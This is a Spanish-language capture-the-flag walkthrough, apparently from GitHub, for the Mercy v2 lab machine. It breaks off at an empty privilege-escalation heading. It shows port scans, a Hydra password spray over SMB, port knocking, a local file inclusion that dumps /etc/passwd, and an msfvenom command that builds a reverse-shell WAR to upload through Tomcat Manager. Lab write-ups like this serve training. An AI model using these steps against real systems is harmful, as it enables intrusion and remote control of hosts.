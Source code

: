 # MERCYv2
Desarrollo del CTF MERCERY V2


## 1. Configuración de la VM

- Download: https://www.vulnhub.com/entry/digitalworldlocal-mercy-v2,263/

## 2. Escaneo de Puertos

```
nmap -n -P0 -p- -sC -sV -O -T5 -oA full 10.10.10.143
Nmap scan report for 10.10.10.143
Host is up (0.00078s latency).
Not shown: 65525 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   filtered ssh
53/tcp   open     domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu
80/tcp   filtered http
110/tcp  open     pop3        Dovecot pop3d
|_pop3-capabilities: CAPA SASL AUTH-RESP-CODE RESP-CODES PIPELINING UIDL TOP STLS
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open     imap        Dovecot imapd (Ubuntu)
|_imap-capabilities: more IMAP4rev1 ID have LITERAL+ Pre-login post-login LOGIN-REFERRALS listed capabilities OK LOGINDISABLEDA0001 IDLE ENABLE SASL-IR STARTTLS
445/tcp  open     netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp  open     ssl/imaps?
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
995/tcp  open     ssl/pop3s?
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
8080/tcp open     http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry 
|_/tryharder/tryharder
|_http-title: Apache Tomcat
MAC Address: 00:0C:29:0E:13:4F (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2h39m58s, deviation: 4h37m07s, median: 0s
|_nbstat: NetBIOS name: MERCY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: mercy
|   NetBIOS computer name: MERCY\x00
|   Domain name: \x00
|   FQDN: mercy
|_  System time: 2021-03-22T01:34:28+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-21T17:34:28
|_  start_date: N/A
```

- Llama la atención TCP/80 y TCP/22 que aparecen como FILTERED. Un probable PORT KNOCKING.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy1.jpg" width=80% />


## 3. Enumeración

- Iniciamos la enumeración. Los puertos IMAP y POP3 no me brindó información importante.

### 3.1. Enumeración NETBIOS

- Identificamos la carpeta QIU compartida en el servidor.

```
root@kali:~/MERCY# smbclient -L \\10.10.10.143 -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	qiu             Disk      
	IPC$            IPC       IPC Service (MERCY server (Samba, Ubuntu))

```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy2.jpg" width=80% />

- El ENUM4LINUX nos brinda información interesante de usuarios (el resultado es muy grande, coloco lo mas importante)

```
 ============================= 
|    Users on 10.10.10.143    |
 ============================= 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: pleadformercy	Name: QIU	Desc: 
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: qiu	Name: 	Desc: 

user:[pleadformercy] rid:[0x3e8]
user:[qiu] rid:[0x3e9]
	User Name   :	qiu
	Full Name   :	
	Home Drive  :	\\mercy\qiu
	Dir Drive   :	
	Profile Path:	\\mercy\qiu\profile
  
  User Name   :	pleadformercy
	Full Name   :	QIU
	Home Drive  :	\\mercy\pleadformercy
	Dir Drive   :	
	Profile Path:	\\mercy\pleadformercy\profile

S-1-22-1-1002 Unix User\thisisasuperduperlonguser (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.

S-1-22-1-1003 Unix User\fluffy (Local User)
Use of uninitialized value $user_info in pattern match (m//) at ./enum4linux.pl line 932.
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy3.jpg" width=80% />

> En resumen tenemos: 04 usuarios identificados (qiu, pleadformercy, thisisasuperduperlonguser, fluffy) y una carpeta compartida (qiu).


### 3.2. Enumeración de TOMCAT

- Buscamos archivos en el servidor web TOMCAT.

```
root@kali:~/MERCY# nikto -h http://10.10.10.143:8080/ 

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        8080
+ Start Time:         2021-03-21 15:55:31 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ /manager/html: Default Tomcat Manager / Host Manager interface found
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/status: Default Tomcat Server Status interface found
+ 8170 requests: 0 error(s) and 13 item(s) reported on remote host
```

- Encontramos el archivo robots.txt, dentro un mensaje en BASE64. 

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy4.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy5.jpg" width=80% />

- El mensaje nos indica que han encontrado contraseñas del tipo "password". Una pista.

- También identificamos carpetas por defecto en TOMCAT. Nada importante.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy6.jpg" width=80% />

## 4. Explotando la Vulnerabilidad

- Tenemos 04 usuarios y el posible uso de la contraseña "password". Tenemos varios protocolos donde probar: TOMCAT MANAGER, SMB, IMAP, POP3.

### 4.1. Acceso por SMB

```
root@kali:~/MERCY# hydra -V -L users.txt -P pass.txt smb://10.10.10.143
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-22 19:49:49
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 12 login tries (l:4/p:3), ~12 tries per task
[DATA] attacking smb://10.10.10.143:445/
[ATTEMPT] target 10.10.10.143 - login "qiu" - pass "password" - 1 of 12 [child 0] (0/0)
[445][smb] host: 10.10.10.143   login: qiu   password: password
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "password" - 4 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "password123" - 5 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "pleadformercy" - pass "P@ssw0rd" - 6 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "thisisasuperduperlonguser" - pass "password" - 7 of 12 [child 0] (0/0)
[445][smb] Host: 10.10.10.143 Account: thisisasuperduperlonguser Error: Invalid account (Anonymous success)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "password" - 10 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "password123" - 11 of 12 [child 0] (0/0)
[ATTEMPT] target 10.10.10.143 - login "fluffy" - pass "P@ssw0rd" - 12 of 12 [child 0] (0/0)
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy7.jpg" width=80% />


- Identificamos los accesos qiu:user, vamos a probar el acceso a la carpeta qiu que habiamos identificado en la enumeración.

```
root@kali:~/MERCY# smbmap -H 10.10.10.143 -u qiu -p password -R qiu
[+] IP: 10.10.10.143:445	Name: 10.10.10.143                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	qiu                                               	READ ONLY	
	.\qiu\*
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	.
	dr--r--r--                0 Mon Nov 19 11:59:09 2018	..
	fr--r--r--             3637 Sun Aug 26 09:19:34 2018	.bashrc
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	.public
	fr--r--r--              163 Fri Aug 31 15:11:34 2018	.bash_history
	dr--r--r--                0 Fri Aug 31 14:22:05 2018	.cache
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	.private
	fr--r--r--              220 Sun Aug 26 09:19:34 2018	.bash_logout
	fr--r--r--              675 Sun Aug 26 09:19:34 2018	.profile
	.\qiu\.public\*
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	dr--r--r--                0 Sun Aug 26 10:24:21 2018	resources
	.\qiu\.public\resources\*
	dr--r--r--                0 Sun Aug 26 10:24:21 2018	.
	dr--r--r--                0 Sun Aug 26 10:23:24 2018	..
	fr--r--r--               54 Sun Aug 26 10:24:21 2018	smiley
	.\qiu\.cache\*
	dr--r--r--                0 Fri Aug 31 14:22:05 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	fr--r--r--                0 Fri Aug 31 14:22:05 2018	motd.legal-displayed
	.\qiu\.private\*
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	.
	dr--r--r--                0 Fri Aug 31 15:07:00 2018	..
	dr--r--r--                0 Thu Aug 30 12:36:50 2018	opensesame
	fr--r--r--               94 Sun Aug 26 10:22:35 2018	readme.txt
	dr--r--r--                0 Mon Nov 19 12:01:09 2018	secrets
	.\qiu\.private\opensesame\*
	dr--r--r--                0 Thu Aug 30 12:36:50 2018	.
	dr--r--r--                0 Sun Aug 26 12:35:34 2018	..
	fr--r--r--              539 Thu Aug 30 12:39:14 2018	configprint
	fr--r--r--            17543 Fri Aug 31 15:11:56 2018	config
```

- Dentro de la carpeta PRIVATE y OPENSESAME hay un archivo CONFIG interesante. Contiene la configuración de un PORT NOCK.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy8.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy9.jpg" width=80% />

### 4.2. Abiendo los puertos PORT NOCK

- Vamos abrir los puertos TCP/80 y TCP/22.

```
root@kali:~/MERCY# knock 10.10.10.143 159 27391 4
root@kali:~/MERCY# knock 10.10.10.143 17301 28504 9999
root@kali:~/MERCY# nmap -n -P0 -p 22,80 -sV 10.10.10.143
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 20:05 EDT
Nmap scan report for 10.10.10.143
Host is up (0.00034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 00:0C:29:0E:13:4F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy10.jpg" width=80% />


### 4.3. Enumeración de TCP/80 

- Nos toca enumerar nuevamente, esta vez con el puerto TCP/80 abierto. GOBUSTER, DIRSEARCH y NIKTO, lo básico.

```
root@kali:~/MERCY/autorecon2/10.10.10.143/scans# cat tcp_80_http_gobuster.txt 
/.hta (Status: 403) [Size: 283]
/.hta.txt (Status: 403) [Size: 287]
/.hta.html (Status: 403) [Size: 288]
/.hta.php (Status: 403) [Size: 287]
/.hta.asp (Status: 403) [Size: 287]
/.hta.aspx (Status: 403) [Size: 288]
/.hta.jsp (Status: 403) [Size: 287]
/.htaccess (Status: 403) [Size: 288]
/.htaccess.html (Status: 403) [Size: 293]
/.htaccess.php (Status: 403) [Size: 292]
/.htaccess.asp (Status: 403) [Size: 292]
/.htaccess.aspx (Status: 403) [Size: 293]
/.htaccess.jsp (Status: 403) [Size: 292]
/.htaccess.txt (Status: 403) [Size: 292]
/.htpasswd (Status: 403) [Size: 288]
/.htpasswd.txt (Status: 403) [Size: 292]
/.htpasswd.html (Status: 403) [Size: 293]
/.htpasswd.php (Status: 403) [Size: 292]
/.htpasswd.asp (Status: 403) [Size: 292]
/.htpasswd.aspx (Status: 403) [Size: 293]
/.htpasswd.jsp (Status: 403) [Size: 292]
/index.html (Status: 200) [Size: 90]
/index.html (Status: 200) [Size: 90]
/login.html (Status: 200) [Size: 67]
/robots.txt (Status: 200) [Size: 50]
/robots.txt (Status: 200) [Size: 50]
/server-status (Status: 403) [Size: 292]
/time (Status: 200) [Size: 79]


root@kali:~/MERCY/autorecon2/10.10.10.143/scans# cat tcp_80_http_nikto.txt 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.143
+ Target Hostname:    10.10.10.143
+ Target Port:        80
+ Start Time:         2021-03-21 15:54:54 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3268: /mercy/: Directory indexing found.
+ Entry '/mercy/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Cookie stylesheet created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.25
+ Entry '/nomercy/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 2 entries which should be manually viewed.
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 5a, size: 5745661f170dc, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.html: Admin login page/section found.
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy11.jpg" width=80% />

- Encontramos lo siguiente: robots.txt, la carpeta /mercy/ y /nomercy/, la fecha en /time

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy12.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy13.jpg" width=80% />


### 4.3. Explotando RIPS

- Aunque era algo casi obvio, lo mas probable era que RIPS (la aplicacion en la carpeta /nomercy/) tuviera alguna vulnerabilidad.
- Buscamos en EXPLOIT-DB.COM e identificamos un LFI (Local File Inclusion).

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy14.jpg" width=80% />

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy15.jpg" width=80% />

```
<? root:x:0:0:root:/root:/bin/bash
<? daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<? bin:x:2:2:bin:/bin:/usr/sbin/nologin
<? sys:x:3:3:sys:/dev:/usr/sbin/nologin
<? sync:x:4:65534:sync:/bin:/bin/sync
<? games:x:5:60:games:/usr/games:/usr/sbin/nologin
<? man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<? lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<? mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<? news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
<? uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<? proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
<? www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<? backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<? list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
<? irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
<? gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
<? nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
<? libuuid:x:100:101::/var/lib/libuuid:
<? syslog:x:101:104::/home/syslog:/bin/false
<? landscape:x:102:105::/var/lib/landscape:/bin/false
<? mysql:x:103:107:MySQL Server,,,:/nonexistent:/bin/false
<? messagebus:x:104:109::/var/run/dbus:/bin/false
<? bind:x:105:116::/var/cache/bind:/bin/false
<? postfix:x:106:117::/var/spool/postfix:/bin/false
<? dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
<? dovecot:x:108:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
<? dovenull:x:109:120:Dovecot login user,,,:/nonexistent:/bin/false
<? sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
<? postgres:x:111:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
<? avahi:x:112:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
<? colord:x:113:124:colord colour management daemon,,,:/var/lib/colord:/bin/false
<? libvirt-qemu:x:114:108:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
<? libvirt-dnsmasq:x:115:125:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
<? tomcat7:x:116:126::/usr/share/tomcat7:/bin/false
<? pleadformercy:x:1000:1000:pleadformercy:/home/pleadformercy:/bin/bash
<? qiu:x:1001:1001:qiu:/home/qiu:/bin/bash
<? thisisasuperduperlonguser:x:1002:1002:,,,:/home/thisisasuperduperlonguser:/bin/bash
<? fluffy:x:1003:1003::/home/fluffy:/bin/sh 
```

- Toca automatizar la búsqueda de información importante a través de LFI. Desde el inicio el TOMCAT me parecia una manera de ganar acceso a través de TOMCAT MANAGER.
- Busqué la RUTA por defecto del archivo de configuración del TOMCAT MANAGER y encontré la contraseña.

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy16.jpg" width=80% />


### 4.4. Accediendo a TOMCAT MANAGER

- Colocamos las credenciales en http://10.10.10.143:8080/manager/html thisisasuperduperlonguser:heartbreakisinevitable

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy17.jpg" width=80% />

- Subimos nuestra webshell y obtenemos conexión reversa.

```
root@kali:~/MERCY# msfvenom -p java/shell/reverse_tcp LHOST=10.10.10.133 LPORT=443 -f war -o reverse.war
Payload size: 6252 bytes
Final size of war file: 6252 bytes
Saved as: webshell.war
```

<img src="https://github.com/El-Palomo/MERCYv2/blob/main/mercy18.jpg" width=80% />


## 5. Elevando Privilegios






























